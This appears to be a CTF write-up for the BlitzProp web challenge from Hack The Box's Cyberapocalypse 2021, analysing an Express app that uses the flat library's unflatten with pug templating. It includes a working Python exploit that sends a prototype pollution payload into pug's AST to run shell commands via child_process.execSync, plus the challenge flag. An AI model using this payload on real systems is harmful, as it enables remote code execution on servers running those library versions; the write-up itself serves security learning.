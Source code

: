 ```yaml
---
slug: blitzprop-cyberapocalypse-2021-ctf
title: BlitzProp - Cyberapocalypse 2021 CTF
description: This is a writeup for the BlitzProp challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the BlitzProp challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.

### Prompt

A tribute page for the legendary alien band called BlitzProp!

<!-- truncate -->

### Recon

We're provided with the source code for a cute webpage, which allows us to vote for some song names using an input field.

By looking at the song names we're supposed to vote for, we could potentially notice some hints like **Polluting** and **AST**.

The site seems to be running on a `node` environment with an `express` server, so we can check out the routes handling file.

```js
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

		console.log(req.body)
		console.log(unflatten(req.body))

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

Looking closely, we see that the `/api/submit` POST endpoint uses a module called `flat` to unflatten a request body into json. The code also uses `pug` for templating.

We can check the versions of these libraries in the `package.json` file.

```json
"dependencies": {
    "express": "^4.17.1",
    "flat": "5.0.0",
    "pug": "^3.0.0"
}
```

The version of flat used seems to be vulnerable to prototype pollution, and we can find information on the payloads we can use [here](https://blog.p6.is/AST-Injection/#Example-1), finding an example exploiting `pug`.

### Solution

By having the exploit at hand, we can write a simple script which will send a POST request with the required `song.name` in the data, as well as with our payload.

The payload itself will allow us to do _Remote Code Execution_. More to the point, we will cat the flag file into the publically available `/static/js` folder, so we can navigate to it after the pollution exploit.

```python
import requests

TARGET_URL = 'http://46.101.44.190:32262'

# make pollution
r=requests.post(TARGET_URL + '/api/submit', json = {
    "song.name":"The Goose went wild",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('cat flag* > static/js/main.js')"
    }
})
# execute
requests.get(TARGET_URL)
print(r.text)
```

Now that we have executed our command, we simply go ahead and curl that flag file, and find our flag

```
CHTB{p0llute_with_styl3}
```

import DonateCard from '@site/src/components/DonateCard';

<DonateCard/>